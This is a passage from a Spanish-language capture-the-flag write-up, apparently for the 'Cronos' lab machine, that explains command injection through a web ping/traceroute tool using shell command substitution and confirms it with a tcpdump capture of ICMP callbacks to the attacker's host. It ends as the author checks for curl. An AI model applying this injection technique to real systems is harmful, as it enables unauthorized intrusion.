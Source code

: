 # **EXPLOTACION**

Nos encontramos con una herramienta que permite hacer un `traceroute` y un `ping`

Podemos intentar abusar de esta forma para inyectar comandos en la maquina, un ejemplo de lo que esta ocurriendo es este:

```bash
❯ cat script.sh
#!/bin/bash

echo "hola me llamo `whoami`"
echo "hola me llamo $(whoami)"
                                                                                                                                                                                                                                           
❯ ./script.sh
hola me llamo root
hola me llamo root
```

![Untitled](/assets/images/Cronos/Untitled%202.png)

```bash
❯ tcpdump -i tun0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
11:21:09.633394 IP 10.10.10.13 > 10.10.16.198: ICMP echo request, id 1737, seq 1, length 64
11:21:09.633408 IP 10.10.16.198 > 10.10.10.13: ICMP echo reply, id 1737, seq 1, length 64
11:21:10.536108 IP 10.10.10.13 > 10.10.16.198: ICMP echo request, id 1737, seq 2, length 64
11:21:10.536122 IP 10.10.16.198 > 10.10.10.13: ICMP echo reply, id 1737, seq 2, length 64
11:21:11.537127 IP 10.10.10.13 > 10.10.16.198: ICMP echo request, id 1737, seq 3, length 64
11:21:11.537141 IP 10.10.16.198 > 10.10.10.13: ICMP echo reply, id 1737, seq 3, length 64
11:21:12.538718 IP 10.10.10.13 > 10.10.16.198: ICMP echo request, id 1737, seq 4, length 64
11:21:12.538736 IP 10.10.16.198 > 10.10.10.13: ICMP echo reply, id 1737, seq 4, length 64
```

Podemos inyectar comandos en esta utilidad, vamos a comprobar si la maquina tiene la herramienta curl:
